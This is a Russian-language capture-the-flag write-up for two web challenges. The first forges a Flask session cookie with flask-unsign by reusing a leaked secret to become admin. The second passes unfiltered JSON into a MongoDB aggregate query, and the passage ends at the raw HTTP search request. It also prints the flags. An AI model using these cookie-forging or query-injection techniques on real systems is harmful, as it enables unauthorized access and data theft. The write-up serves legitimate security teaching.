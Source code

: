 В описании сказано, что админ раздаёт свои подписи. После регистрации аккаунта и входа в систему на главной странице можно увидеть подпись админа. Запомним это.

Welcome, dear friend! Here is your sign: 4DM1N_L0v3S_Y0U_V3RY_MUCH,4LL_TH3_B3St

После первичного анализа функциональности сайта понимаем, что точек входа здесь очень мало. Одна из них - куки.

Сервер использует фласк-сессии, которые можно декодировать например, с помощью flask-unsign.

```console
nti@contest:~$ flask-unsign -c ".eJwljjluwzAQAP_C2sVeFLn-jMC9kMBAAkh2ZfjvEZBiiplq3m2vI8-vdn8er7y1_TvavfVUX6uLr5o2cACJc4KRV8cpPGUCkxmKusOixA681HVU0KzM4DSIcmWfxR5KESqEbGa1SMZFbmCdYiio1NhmkU_uUC6rXSOvM4__G7zUz6P25-8jf66wmMK3hEIpUzckVeMgcmLAYuq0VS5qnz9thUBD.Ybn6mg.ovlSskaH6j4sUMU97pN6TcLttFA" --decode
{'_fresh': True, '_id': '5e9caa54caf8b717024c3e0b2cf51843848032bb149cc0a2e1503a9c97fd28feed3eb0dfc93c8f3cd92dd94213bbbfa247a24e60b52d79094f768f2c8350fc4a', '_user_id': '1', 'csrf_token': 'a32dc6e0f14fb9cb1299b3d22c2301f32526fea2'}
```

Видим, что сессия имеет параметр _user_id. Приходит идея поменять _user_id на 0, что бы попробовать вклиниться в сессию администратора, но для генерации собственной фласк-сессии её нужно подписать секретным ключём. Попробуем сделать это с помощью подписи администратора и утилиты flask-unsign

```console
nti@contest:~$ flask-unsign -s --cookie '{"_user_id": "0"}' --secret "4DM1N_L0v3S_Y0U_V3RY_MUCH,4LL_TH3_B3St"
eyJfdXNlcl9pZCI6IjAifQ.YboDew.nmxZ057PPpdBPyA06uX2NIhEhGo
```

Подставим новую сессию, например, через консоль разработчика в браузере, и обновим страницу

После этого произойдёт автоматический редирект на страницу /admin с флагом

flag{K33p_Y0UR_FL4SK_S3CR3TS_1N_S3CR3T}


### Thought aggregator

К заданию даются исходные коды. После анализа приходим к выводу, что для поиска используются aggregate-запросы в mongodb. Кроме того, запрос от пользователя посылается в json-виде и не проходит фильтрации.

Это позволяет нам сделать aggregate запрос, объединяющий несколько коллекций (в нашем случае коллекцию flag)

#### Эксплуатация

При попытке поиска на на сервер посылается запрос следующего вида:

```http
POST /api HTTP/1.1
Host: 172.21.30.20:3000
Content-Length: 43
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://172.21.30.20:3000
Referer: http://172.21.30.20:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"$match":{"message":{"$regex":".*sometext.*"}}}
```
